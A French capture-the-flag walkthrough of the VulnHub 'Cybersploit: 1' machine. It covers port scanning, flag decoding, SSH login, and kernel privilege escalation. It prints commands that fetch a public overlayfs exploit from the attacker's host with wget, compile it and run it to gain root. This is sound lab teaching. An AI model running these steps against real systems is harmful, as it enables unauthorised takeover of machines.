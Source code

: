 ```yaml
---
title: "CTF Cybersploit: 1"
date: 2021-05-31
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/cybersploit-1,506
parts: 
  - title: 'CTF Cybersploit: 1'
  - title: 'CTF Cybersploit: 2'
    href: 'ctf-cybersploit-2'
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.1** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.36`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir Cybersploit1 && cd Cybersploit1`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -A -p- $IP -oN nmap.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 01:1b:c8:fe:18:71:28:60:84:6a:9f:30:35:11:66:3d (DSA)
|   2048 d9:53:14:a3:7f:99:51:40:3f:49:ef:ef:7f:8b:35:de (RSA)
|_  256 ef:43:5b:d0:c0:eb:ee:3e:76:61:5c:6d:ce:15:fe:7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hello Pentester!
```

On a un un serveur **SSH** sur le port **22** et un serveur **Apache** 2.2.22 sur le port **80**.

Astuce vous pouvez ajouter le domaine _cybersploit-1.home_ dans le fichier `/etc/hosts` avec **Vim** (ou un autre éditeur de texte).

```bash
$ sudo vim /etc/hosts
192.168.1.36    cybersploit-1.home
```

Avec **Gobuster**, on scan dossiers et pages présents sur le serveur **Apache**.

```bash
$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt,.xml,.js,.md,.log,.zip 
/index                (Status: 200) [Size: 2333]
/index.html           (Status: 200) [Size: 2333]
/robots               (Status: 200) [Size: 79]  
/robots.txt           (Status: 200) [Size: 79]  
/hacker               (Status: 200) [Size: 3757743]
```

Dans le fichier [robots.txt](http://cybersploit-1.home/robots.txt), on une chaine de caractère de type **base64** `R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9`.

```bash
$ echo 'R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9' | base64 -d
Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit}
```

On vient de découvrir le 1er flag. Dans le code source de la page d'accueil, on a un potentiel utilisateur "itsskv".

```txt
<!-------------username:itsskv--------------------->
```

## Pénétration

```bash
$ ssh itsskv@$IP
password: cybersploit{youtube.com/c/cybersploit}
```

```bash
$ cat flag2.txt 
01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101
```

En convertissant de binaire vers texte (on trouve plein de convertisseurs sur Internet), on obtient le contenu du second flage ci-dessous.

```txt
good work !
flag2: cybersploit{https:t.me/cybersploit1}
```

Regardons la version du noyau **Linux**.

```bash
$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic
```

Après une recherche d'exploit via **searchsploit**, on en trouve un qui pourrait nous correspondre.

```bash
$ searchsploit linux kernel 3.13.0-32
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation  | linux/local/37292.c
```

On vérifie quand même la distribution **Linux** du serveur.

```bash
$ cat /etc/issue
Ubuntu 12.04.5 LTS \n \l
```

On est sur du **Ubuntu** 12.04.5 avec un kernel **Linux** 3.13.0, c'est exploitable. Avant de s'emballer, on vérifie si on peut utiliser le compilateur **GCC** (**G**NU **C**ompiler **C**ollection).

```bash
$ which gcc
/usr/bin/gcc
```

C'est tout bon. On va donc transférer l'exploit sur le serveur via un serveur HTTP sur **Python**.

```bash
$ searchsploit -p 37292
Path: /usr/share/exploitdb/exploits/linux/local/37292.c
$ cp /usr/share/exploitdb/exploits/linux/local/37292.c exploit.c
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

De retour sur le serveur, on se place dans le dossier "/tmp" et on récupère le fichier de l'exploit afin de le compiler et de l'exécuter.

```bash
$ cd /tmp
$ wget http://192.168.1.38:8000/exploit.c
$ gcc exploit.c -o exploit
$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
$ id
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
```

Chouette, l'exploit a bien fonctionné car on est root de la machine. On trouve facilement le troisième et dernier flag.

```bash
$ cat /root/finalflag.txt
flag3: cybersploit{Z3X21CW42C4 many many congratulations !}
```
